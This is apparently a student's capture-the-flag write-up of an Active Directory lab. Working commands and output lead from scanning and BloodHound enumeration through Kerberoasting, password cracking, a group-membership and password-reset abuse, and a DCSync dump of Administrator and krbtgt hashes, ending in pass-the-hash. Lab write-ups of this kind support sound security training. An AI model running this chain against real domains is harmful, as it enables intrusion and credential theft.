





# CSLU UTM 2026 Active Directory Challenge

Username: pi

_There are no flags. The goal is to compromise the Administrator account and obtain their NTLM hash
Initial creds: `Cillian.Murphy:Password123!`_

## Discovery

I started with a `netdiscover` scan to find the IP of the Challenge Box



Through process of elimination, the IP is `172.16.161.67`

## Scanning 

Next step was to do an NMAP scan to see what services are running. I did it on all ports with `nmap -sV -p- 172.16.161.67`.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-12 03:23:15Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: challenge.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: challenge.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
60328/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
60329/tcp open  msrpc         Microsoft Windows RPC
60332/tcp open  msrpc         Microsoft Windows RPC
60339/tcp open  msrpc         Microsoft Windows RPC
60349/tcp open  msrpc         Microsoft Windows RPC
64124/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 00:0C:29:DF:6D:A8 (VMware)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

From this scan, we can tell that we are dealing directly with the Domain controller `DC01`. The domain is `challenge.local`,  and so I added the following to `/etc/hosts/` for proper hostname resolution:

```
172.16.161.67 dc01.challenge.local dc01 challenge.local
```

## Enumeration

I ran the bloodhound-python ingestor with the inital credentials:

```bash
bloodhound-python -d challenge.local -u Cillian.Murphy -p 'Password123!' -dc dc01.challenge.local -ns 172.16.161.67 -c all
```

After looking around for a while, I tried this Cypher to find the shortest possible attack path from any user to the Domain Admins group

```
MATCH p=shortestPath((u:User)-[*1..]->(g:Group)) WHERE g.name = 'DOMAIN ADMINS@CHALLENGE.LOCAL' RETURN p
```



Interesting. I tried to see if I can use Cillian's account to get the TGS ticket for `svc_legit`

```
GetUserSPNs.py challenge.local/CILLIAN.MURPHY:Password123! -dc-ip 172.16.161.67 -request

$krb5tgs$23$*svc_legit$CHALLENGE.LOCAL$challenge.local/svc_legit*$4ce56544e416f6bcd8a586677c814b83$8e0019336ddb0b9956052e45e633f826453cd9db3bb11f29609f25a36d65ac8e0bb63a2327055043f41d1d288b572aeed80e649965c2c6145b837119a9f2b74610886b8de906cf90d95c472a18c890432c8c0718a778be0ddd86c7cd671f585c3d5f9cb80e901928c19e05a48514fea0b38435489e1c1d0b7eefa533e8aef826c66bd3ea5790586c6617983a54f063d7f3d7ad6cd42b73505cc1ad0214bbb5834d59c14517161d71e6716f4e51610e6c1c518facf94901f82f9f34b01a764e9b697d809331ebe3de5c0df8063aaa00fd4ad4ea92bb6a80364343f7a0f3bb22c26835c5b719ab0d6136ae64f59f347fd5bfa505c02fed26b14f02be29557435ffb70ebea2d714f6c0b34722927265f7fcc31391953a9d272c921867c9491f2972b0166b03d2af3c045642795ef83e98461b7663f5457367612e058c6877cd4e6663d1e7c43b8b218f858a54f74dde18a46a0df491ad6420d4c4e8d8a0cda350d7c6ad2ac46639e988387c131b9013234dc07eef8a9c9723b546619aa34a01075019fb70937e045e5959314da7d58c3c0011ed9e4b724cc78f9802944dcb12d77465676d67a0f16f5d65d78977bec2859a45597c697d4f6ad0afe2e4ae631acdbd825e8aa1d7f64e609b060a160a53b6556a492d75bcb32d0c4becded8e1f42096bde32ee927ec3e7d952408127b303c0d17bd2a75b3539f15274c7c09513c4e5a48df19e788cfee16eeeccbbe2bd68d29acfcfa15be295ee63bdf639ff43bab19e2668e44a755e4a67a563e0f4c0f923da8e285f18e98a3b1750daaf36e8347af144c3ddba21c7df137fd21f7b66a03aac21f1efe6f0897d13b8c4a4e31aa1084236f6a346eb6070cbbf994305bbd9d2ee38d0b841175dd7c122af53dc7c1677fa5c8b2184dd8d08c63d4f1c6e5d13bcd5354eec3d62f749d5d50c4b2ad6aa77254ed433d0a12dbd1431be6f6a010550529cfdef1d7bd8640d760502915e4ed22fc6b0983af0408d27b631d888a7fcd66fca57fb66d02bf1722c236266bc9ced14a201261c0bb3d119f43f5bb4b3c9341f9e4661a218b70e4031388f46d37aff1a543ab30352e395e84677b462b726d38a1959bd6e5c9c6d025254edfa1e8452372f4f7e88d763730a3681da0100f4fa15d2589385a9f0567aeece48f2cf986002c8551fd35225beaf58a9c31da1202f4a51ecd1e85484f3b289ac9f27299ac265dc5c615cd335f72f4fe116ab9d7687101b04418dcfd82c0baf3b58f1ddf437adcecf2c2f2b2802d36b2ec2c991ca983efe06ad404e26b993ab7e5a26412473ceb128c339ded5f42239c2d28886008ec87ef41a238d5b0a6036ae176d808a6fcd0541fea48987ed086475670d0602d1d85eb0b8f75e8df31533a162d9d992b7c22f325666f792e4ae64f85022a190f57eb6c97e5f5dac9373be4de2d8373ea1ace08b5e1e0052aab50d27bd0be0d3e29277c7d9a84112d83fcb45ab8877fffa82cca6144b4b5e7249bc0d4b83d94a5284dce7d670b06f64eba90bf00a13e2fbfd89c106860da2609138e4fba66b447662f7aec48f841
```

I used JohnTheRipper to crack this hash with `rockyou.txt`

```bash
john --format=krb5tgs legit_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password is `Texasballer24`

## Exploitation

After some enumeration with netexec, I found that I can get a WinRM session with this account

```
└─$ nxc winrm 172.16.161.67 -u svc_legit -p 'Texasballer24'          
WINRM       172.16.161.67   5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:challenge.local) 
WINRM       172.16.161.67   5985   DC01             [+] challenge.local\svc_legit:Texasballer24 (Pwn3d!)
```

I didn't find anything of note during the WinRM session. I decided to continue with the attack path found by BloodHound.

### Step 1 - AddMember
The user `SVC_LEGIT@CHALLENGE.LOCAL` has the ability to add itself to the group `INTERNAL STAFF@CHALLENGE.LOCAL`. Because of security group delegation, the members of a security group have the same privileges as that group.

By adding itself to the group, `SVC_LEGIT@CHALLENGE.LOCAL` will gain the same privileges that `INTERNAL STAFF@CHALLENGE.LOCAL` already has.

```
net rpc group addmem "Internal Staff" "svc_legit" -U "challenge.local"/"svc_legit"%"Texasballer24" -S dc01.challenge.local
```

Then verified with:

```
net rpc group members "Internal Staff" -U "challenge.local"/"svc_legit"%"Texasballer24" -S dc01.challenge.local
```



### Step 2 - AllExtendedRights

The AllExtendedRights permission grants INTERNAL STAFF@CHALLENGE.LOCAL the ability to change the password of the user WILLIAM.BUTCHER@CHALLENGE.LOCAL without knowing their current password. This is equivalent to the "ForceChangePassword" edge.

```
net rpc password "WILLIAM.BUTCHER" "Password123" -U "challenge.local"/"svc_legit"%"Texasballer24" -S dc01.challenge.local
```

### Step 3 - GetChanges
The user WILLIAM.BUTCHER@CHALLENGE.LOCAL has the DS-Replication-Get-Changes permission on the domain CHALLENGE.LOCAL.

This was the command given by BloodHound
```
impacket-secretsdump -just-dc challenge.local/William.Butcher:Password123@172.16.161.67 
```

From the output we get:

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dd7a157c6ffe3072305e9eb326ae37d5:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b4d0c1be0c2e0144511423813a34d7bb:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:2e6e74d110b675bc6e286e547a4d3d2b6579577a9c2817ceaed2709a18896406
Administrator:aes128-cts-hmac-sha1-96:3f338572a1ba567ae01c2324afe8289c
Administrator:des-cbc-md5:5737a1a480bc6bc1
krbtgt:aes256-cts-hmac-sha1-96:26905af8d77ea37571123a42678d5260bf1a9789a4f4661d88ef6e935dcac219
krbtgt:aes128-cts-hmac-sha1-96:26d50dea81f870349ca61fc018bfe160
krbtgt:des-cbc-md5:4fa8d5ea4fc8f2a2
```

We got the Administrator's NTLM hash: `aad3b435b51404eeaad3b435b51404ee:dd7a157c6ffe3072305e9eb326ae37d5`

I tested the hash with Netexec on SMB and WINRM



Great! We can even start a winrm session with evil-winrm:

```
evil-winrm -i challenge.local -u Administrator -H dd7a157c6ffe3072305e9eb326ae37d5 
```



## Final Attack Path & Summary

```
Initial Access
    │
    ▼
Cillian.Murphy
    │
    │ Kerberoast
    ▼
svc_legit
    │
    │ AddMember
    ▼
Internal Staff
    │
    │ AllExtendedRights
    ▼
William.Butcher
    │
    │ GetChanges / DCSync
    ▼
Administrator Hash
    │
    ▼
Domain Compromise
```

1. Enumerated the domain using BloodHound.
2. Identified a Kerberoastable service account (svc_legit).
3. Cracked the service account password.
4. Added svc_legit to Internal Staff via AddMember.
5. Used AllExtendedRights to reset William.Butcher's password.
6. Abused replication privileges (GetChanges) to perform DCSync.
7. Obtained the Administrator NTLM hash.
8. Verified compromise through Pass-the-Hash authentication.